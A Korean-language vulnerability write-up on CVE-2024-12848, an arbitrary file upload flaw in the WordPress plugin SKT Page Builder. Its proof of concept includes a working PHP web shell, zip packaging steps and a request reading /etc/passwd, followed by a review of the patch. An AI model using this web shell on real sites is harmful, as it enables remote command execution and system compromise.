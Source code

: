 ```yaml
---
title: "[CVE-2024-12848] 취약점 분석 보고서"
description: "WordPress 플러그인 SKT Page Builder의 4.7 버전 이하에서 발견된 임의 파일 업로드 취약점"
author: dottak
date: 2025-01-13 14:24:00 +0900
categories: [One-Day 분석, WordPress]
tags: [빡공팟, 콘테스트 네뷸라, CVE, CVE-2024-12848, File Upload]
image: assets/img/wordpress-thumbnail.png
exclude_img: true
---
```


## 📌 Analysis

### 1. 개요

`CVE-2024-12848` 취약점은 WordPress 플러그인 SKT Page Builder의 4.7 버전 이하에서 발견된 임의 파일 업로드 취약점입니다. 이 취약점은 SKT Page Builder 플러그인 대시보드의 'Manage Libraries' 메뉴에서 라이브러리 업로드 시 발생합니다.

취약점은 파일 업로드 처리 중 `addLibraryByArchive` 함수가 파일 확장자 필터링을 제대로 수행하지 않아 발생했습니다. 이로 인해 구독자(Subscriber) 이상의 권한을 가진 인증된 사용자가 웹 쉘과 같은 악성 파일을 업로드하여 원격 코드 실행을 수행할 수 있습니다.

### 2. 취약점 분석

취약점이 트리거되는 페이지는 SKT Builder 플러그인 대시보드의 ‘Manage Libraries’ 메뉴(`/wp-admin/admin.php?page=sktbuilder-manage-libs`) 입니다.

![image](assets/posts/one-day/2025-01-13/image001.png)

해당 메뉴에서 ‘Upload a SKT Builder library’를 선택하고 ‘Add Library’ 버튼을 클릭하여 파일을 업로드하면 `/wp-content/plugins/skt-builder.4.7/sktbuilder.php` 파일 내 `Sktbuilder` 클래스의 `addNewLib` 함수가 호출됩니다. 

이후 해당 함수는 파일 업로드 처리를 위해 요청 받은 파일 데이터 `$_FILES['lib_file']` 를 함수 `addLibraryByArchive` 의 인자로 전달하게 됩니다.

![image](assets/posts/one-day/2025-01-13/image002.png)

이어서 함수 `addLibraryByArchive` 는 전달받은 파일 데이터 `$_FILES['lib_file']` 의 파일 확장자가 압축 파일(`application/zip`)인지 필터링을 수행하고 있습니다.

이후 해당 압축 파일을 `unzip_file` 함수를 이용하여 `$upload_dir` 경로에 압축 해제를 수행하고 있습니다. 이때, 압축 해제된 파일에 대한 파일 확장자 필터링이 존재하지 않아 압축 파일 내부에 PHP 웹 쉘과 같은 악성 파일을 포함시켜 업로드가 가능합니다. 

![image](assets/posts/one-day/2025-01-13/image003.png)

## 📌 PoC

### 1. 웹 쉘(WebShell) 준비

아래의 코드를 가지는 PHP 웹 쉘 파일(`webshell.php`)을 생성합니다.

```php
<?php
    if(isset($_REQUEST['cmd'])){
        echo "<pre>";
        $cmd = ($_REQUEST['cmd']);
        system($cmd);
        echo "</pre>";
        die;
    }
?>
```

![image](assets/posts/one-day/2025-01-13/image004.png)

### 2. 웹 쉘(WebShell) 압축 하기

이후 생성한 PHP 파일을 압축하여 ZIP 파일로 만듭니다.

```bash
zip webshell.zip webshell.php # 파일 압축
zip -sf webshell.zip # 압축된 파일 확인
```

![image](assets/posts/one-day/2025-01-13/image005.png)

### 3. 웹 쉘 업로드

SKT Builder 플러그인 대시보드 ‘Manage Libraries’ 메뉴(`/wp-admin/admin.php?page=sktbuilder-manage-libs`)로 이동한 뒤 아래와 같이 압축한 웹 쉘 파일(`webshell.zip`)을 업로드합니다.

![image](assets/posts/one-day/2025-01-13/image006.png)

그럼 HTTP 요청 패킷이 아래와 같이 전송됩니다.

![image](assets/posts/one-day/2025-01-13/image007.png)

### 4. 웹 쉘 확인

이후 SKT Builder 플러그인의 업로드 디렉터리(`/wp-content/uploads/sktbuilder/`)를 보면 아래와 같이 웹 쉘이 정상적으로 압축 해제되어 있는 것을 확인할 수 있습니다.

![image](assets/posts/one-day/2025-01-13/image008.png)

그 다음 브라우저를 통해 웹 쉘이 업로드된 경로를 요청하면 URL 파라미터 `cmd` 로 전달된 데이터가 시스템 명령어로 전달되어 실행되는 것을 확인하실 수 있습니다.

```bash
/wp-content/uploads/sktbuilder/webshell.php?cmd=cat+/etc/passwd
```

![image](assets/posts/one-day/2025-01-13/image009.png)

## 📌 패치 확인

패치된 버전에서는 압축 파일을 해제한 다음 압축 해제된 파일들의 확장자를 검사하여 `.json` 확장자를 가진 파일만 업로드되도록 제한하고 있습니다.

> https://plugins.trac.wordpress.org/changeset/3213786/skt-builder/trunk/sktbuilder.php#file0
> 

![image](assets/posts/one-day/2025-01-13/image010.png)